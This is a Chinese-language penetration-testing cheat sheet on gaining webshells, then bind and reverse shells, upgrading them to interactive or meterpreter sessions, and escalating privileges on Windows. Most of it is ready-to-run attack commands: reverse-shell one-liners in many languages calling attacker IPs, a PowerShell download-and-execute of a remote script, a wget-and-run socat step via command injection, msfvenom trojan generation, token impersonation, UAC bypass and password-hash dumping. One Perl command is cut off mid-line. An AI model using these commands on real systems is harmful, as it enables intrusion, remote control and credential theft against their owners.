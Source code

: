 shell
========================================

webshell获取常规方法
----------------------------------------

通过CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通过CMS获取Webshell的思路通常分为两类： 一类是针对特定版本的具体漏洞进行利用，完成如远程执行命令、数据库注入等操作；另一类则是通过弱口令或者漏洞利用进后台管理界面，然后通过上传插件、修改模板文件等方式上传木马脚本。

通过非CMS获取Webshell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 利用文件上传
- 利用SQL注入

其他获取Webshell方法
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- Phpmyadmin
- Tomcat
- Weblogic
- JBoss

webshell升级为交互式shell
----------------------------------------

为什么需要交互式shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Webshell 里经常会看到一些 命令执行, 虚拟终端 之类的可以执行系统命令的功能，原理就是通过脚本语言自身提供的 system, popen, shell_exec 之类的函数来完成执行命令的目的。这种方式不支持上下文，并且在面对一些需要用户交互的命令时，就显得很鸡肋了。

比如说passwd命令:
	- root@localhost:/# passwd root
	- Enter new UNIX password: [这里需要用户按下键盘]
	- Retype new UNIX password: [这里需要用户按下键盘]

存在问题：
	- 无法使用vim等文本编辑器
	- 不能补全
	- 不能su
	- 没有向上箭头使用历史

正向shell
----------------------------------------

nc正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``nc -l 1567 -e /bin/bash -i`` 
	``nc -lvp 1567 -e c:\windows\system32\cmd.exe`` 
- client
	``nc 172.31.100.7 1567`` 

socat正向shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- server
	``socat TCP-LISTEN:12345 EXEC:/bin/bash`` 
- client
	``nc 192.168.x.x 12345`` 


反弹shell
----------------------------------------

什么是反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
反弹shell（reverse shell），就是控制端监听在某TCP/UDP端口，被控端发起请求到该端口，并将其命令行的输入输出转到控制端。reverse shell与telnet，ssh等标准shell对应，本质上是网络概念的客户端与服务端的角色反转。

为什么需要反弹shell？
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
通常用于被控端因防火墙受限、权限不足、端口被占用等情形。
举例：假设我们攻击了一台机器，打开了该机器的一个端口，攻击者在自己的机器去连接目标机器（目标ip：目标机器端口），这是比较常规的形式，我们叫做正向连接。远程桌面、web服务、ssh、telnet等等都是正向连接。那么什么情况下正向连接不能用了呢？

- 如下情况：
	- 1.某客户机中了你的网马，但是它在局域网内，你直接连接不了。
	- 2.目标机器的ip动态改变，你不能持续控制。
	- 3.由于防火墙等限制，对方机器只能发送请求，不能接收请求。
	- 4.对于病毒，木马，受害者什么时候能中招，对方的网络环境是什么样的，什么时候开关机等情况都是未知的，所以建立一个服务端让恶意程序主动连接，才是上策。

	那么反弹就很好理解了，攻击者指定服务端，受害者主机主动连接攻击者的服务端程序，就叫反弹连接。

常用反弹shell
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

- 各种shell

::

	注：需区分服务器的sh类型，可使用which sh查询。
	不同的sh，影响不同的反向shell是否可以成功。

- `php-reverse-shell <http://pentestmonkey.net/tools/web-shells/php-reverse-shell>`_
- bash反向shell

::

	vps：nc -lvp 4444
	bash -i >& /dev/tcp/192.168.174.130/4444 0>&1

- python反向shell

::

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
	
- php反向shell

::

	php -r '$sock=fsockopen("192.168.174.130",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
	php -r '$sock=fsockopen("172.16.100.105",4444);$descriptorspec = array(0 => $sock,1 => $sock,2 => $sock);$process = proc_open('/bin/sh', $descriptorspec, $pipes);proc_close($process);'

- Perl反向shell 

::

	perl -e 'use Socket;$i="192.168.174.130";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
	linux：perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
	windwos：perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"192.168.174.130:4444");STDIN->f

- socat反向shell

::

	socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.174.130:4444

- Ruby反向shell

::

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.174.130","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	linux：ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
	windows：ruby -rsocket -e 'c=TCPSocket.new("10.10.10.166","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

- Lua反向shell

::

	lua -e "require('socket');require('os');t=socket.tcp();t:connect('192。168.174.130','4444');os.execute('/bin/sh -i <&3 >&3 2>&3');"

- Awk反向shell

::

	awk 'BEGIN{s="/inet/tcp/0/192.168.174.130/4444";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}'

- exec反向shell 

::

	exec 5<>/dev/tcp/192.168.174.130/4444 cat <&5 | while read line; do $line 2>&5 >&5; done
	0<&196;exec 196<>/dev/tcp/192.168.174.130/4444; sh <&196>&196 2>&196

- nc反向shell

::

	server(vps)：nc -lvp 1567
	client：nc 172.31.100.7 1567 -e /bin/bash
	client：nc 192.168.174.130 9999 -e c:\windows\system32\cmd.exe
	client：rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.174.130 4444 >/tmp/f

- powershell反弹shell

::

	apt-get install powshell
	powershell IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/9a3c747bcf535ef82dc4c5c66aac36db47c2afde/Shells/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.174.130 -port 4444

- msfvenom生成
	参考 :ref:`webvuln/tools/webpersistence:WebShell管理工具`

shell升级为交互式shell
-----------------------------------------

- 半交互式shell
	+ Python pty模块
		::

			通常我们nc获得的shell都是不完全shell，需要通过Python的pty转换为半交互式shell。 
			python -c "import pty;pty.spawn('/bin/bash')"
			可以运行su命令。
		
	+ socat
		::
		
			在kali（监听）：socat file:`tty`,raw,echo=0 tcp-listen:4444
			受害人：socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
			如果没有安装socat。有独立的二进制文件可以从这个Github下载：
			https://github.com/andrew-d/static-binaries
			通过命令注入，可以将socat二进制文件下载到可写的目录，之后chmod，然后在一行中执行反向shell：
			wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; 
			chmod +x /tmp/socat; 
			/tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444

- 完全交互式Shell

::

	$ python -c 'import pty; pty.spawn("/bin/bash")'
	Ctrl-Z
	$ stty raw -echo
	$ fg
	$ reset
	$ export SHELL=bash
	//$ export TERM=xterm-256color


shell升级为meterpreter
-----------------------------------------
- web_delivery模块
	背景：
		目标设备存在远程文件包含漏洞或者命令注入漏洞，想在目标设备上加载webshell，但不想在目标设备硬盘上留下任何webshell文件信息.
	
	::
	
		使用步骤:
		1、use exploit/multi/script/web_delivery
		2、set target PHP   ====>因为一般web平台默认支持PHP，所以我们选择兼容性最好的PHP做webshell
		3、set payload php/meterpreter/reverse_tcp    ====>选择php写的meterpreter
		4、set lhost 172.20.163.160
		5、set lport 1111
		6、run

	|shell1|
	
	利用方式：
		命令注入漏洞： ``php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.20.163.160:1111/OgsOFaj3yKH'));"`` 
		远程文件包含漏洞： ``http://172.20.163.160:1111/OgsOFaj3yKH`` 

meterpreter提权
-----------------------------------------
- 前提
	+ 生成木马
		``msfvenom -p windows/meterpreter/reverse_tcp lhost=172.16.11.2 lport=4444 -f exe -o /tmp/hack.exe``
		
		::
		
			默认为32位,如果靶机为64位需要更改为:wiondows/x64/meterpreter/reverse_tcp
			反弹到的监听端地址为172.16.11.2，监听端口为4444，文件输出格式为exe并保存到路径/tmp/hack.exe
	+ 执行监听
		::
		
			use exploit/multi/handler
			set payload windows/meterpreter/reverse_tcp
			set LHOST 172.16.11.2
			show options
			exploit
	+ 上传并执行木马
		此处假设我们通过一系列的渗透测试得到了目标机器的webshell，并上传生成的木马hack.exe，执行成功。
			
- getsystem提权
- exp提权
	::
	
		meterpreter > background //先后台运行会话[*] Backgrounding session 1…
		msf > use post/windows/escalate/ms10_073_kbdlayout
		msf > show options
		msf > set session 1 //设置要使用的会话
		msf post(ms10_073_kbdlayout) > exploit
		
		或直接用一下命令：
		meterpreter > run post/windows/escalate/ms10_073_kbdlayout
- 盗取令牌
	::
	
		meterpreter > use incognito //进入这个模块
		meterpreter > list_tokens –u //查看存在的令牌
		meterpreter > impersonate_token NT AUTXXXX\SYSTEM //令牌是DelegationTokens一列，getuid查看，两个斜杠
		注意：只有具有“模仿安全令牌权限”的账户才能去模仿别人的令牌，一般大多数的服务型账户（IIS、MSSQL等）有
		这个权限，大多数用户级的账户没有这个权限。一般从web拿到的webshell都是IIS服务器权限，是具有这个模仿权
		限的，建好的账户没有这个权限。使用菜刀（IIS服务器权限）反弹meterpreter是服务型权限。
- Bypassuac
	::
	
		msf > use exploit/windows/local/bypassuac //32位与64位一样，其他几个模块也一样
		msf > show options
		msf > set session 4
		msf > run //成功后会返回一个新的session，进入新会话，发现权限没变，使用getsystem即可完成提权
- Hash
	``meterpreter > run post/windows/gather/smart_hashdump`` 


.. |shell1| image:: ../images/shell1.png